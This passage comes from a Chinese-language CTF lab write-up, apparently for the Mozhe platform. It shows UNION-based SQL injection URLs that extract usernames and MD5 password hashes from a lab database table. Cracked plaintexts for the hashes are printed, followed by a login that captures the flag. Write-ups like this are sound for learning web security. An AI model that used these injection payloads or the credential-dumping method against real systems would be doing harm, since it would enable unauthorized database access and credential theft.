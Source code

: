 ```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 0,1
```
![](https://img.yatjay.top/md/202203251631017.png)
```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1
```
![](https://img.yatjay.top/md/202203251631117.png)
```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 2,1
```
![](https://img.yatjay.top/md/202203251632899.png)这就说明数据库`mozhe_Discuz_StormGroup`中的表`StormGroup_member`中只有2条数据，其用户名和密码如下：

| id   | name  | password                                       | status |
| ---- | ----- | ---------------------------------------------- | ------ |
| ……   | mozhe | 356f589a7df439f6f744ff19bb8092c0  解密：dsan13 | ……     |
| ……   | mozhe | e88c63a5c7b6fa8e5055ad185755a8dc 解密：176387  | ……     |

对查到的密码进行MD5解密后尝试登录：

第一个用户被禁用：

![](https://img.yatjay.top/md/202203251632103.png)

第二个用户成功登录并拿到flag：

![](https://img.yatjay.top/md/202203251632369.png)

# 涉及资源

- https://github.com/Audi-1/sqli-labs
- 忍者安全测试系统-禁用软盘安装
- https://www.mozhe.cn/bug/detail/elRHc1BCd2VlIckQxbjduMG9BVCtkZz09bW96aGUmozhe
